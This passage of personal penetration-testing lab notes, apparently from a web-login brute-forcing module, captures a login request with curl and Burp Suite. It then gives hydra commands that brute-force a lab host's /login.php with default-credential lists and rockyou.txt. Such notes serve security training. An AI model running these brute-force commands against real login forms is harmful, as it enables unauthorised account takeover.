 ![](../Images/Pasted%20image%2020231227194250.png)

this will reveal the post parameters: 

`username=admin&password=admin`

can also copy as cURL to get the full request: 

`curl 'http://94.237.62.195:41370/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.62.195:41370' -H 'DNT: 1' -H 'Authorization: Basic YWRtaW46YWRtaW4=' -H 'Connection: keep-alive' -H 'Referer: http://94.237.62.195:41370/login.php' -H 'Cookie: PHPSESSID=mldgm82ib2m2t2rk6iop77hhme' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=admin&password=admin'`

### Using burp suite 

if the site uses a lot of HTTP requests, it might be easier to use Burp to go through all of them 

first we open Burp Suite and go to the proxy tab: 

![](../Images/Pasted%20image%2020231227200838.png)

enable the Burp proxy with FoxyProxy: 

![](../Images/Pasted%20image%2020231227200916.png)

then after trying another login we can see the captured login on Burp: 

![](../Images/Pasted%20image%2020231227201010.png)

now with the information we need, we can add it to the hydra command: 

`"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

## Login Form Attacks

first lets use the full hydra command with a list of default usernames and passwords: 

`hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.62.195 -s 41370 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

![](../Images/Pasted%20image%2020231227204223.png)

this did not find any working credentials but at least we ruled out a lot of default credentials 

since this specific login form is for admins, this could potentially rule out a lot of usernames  
we can then try many default user names such as admin

now we can try with the rockyou.txt list: 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 94.237.62.195 -s 41370 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

![](../Images/Pasted%20image%2020231227205301.png)
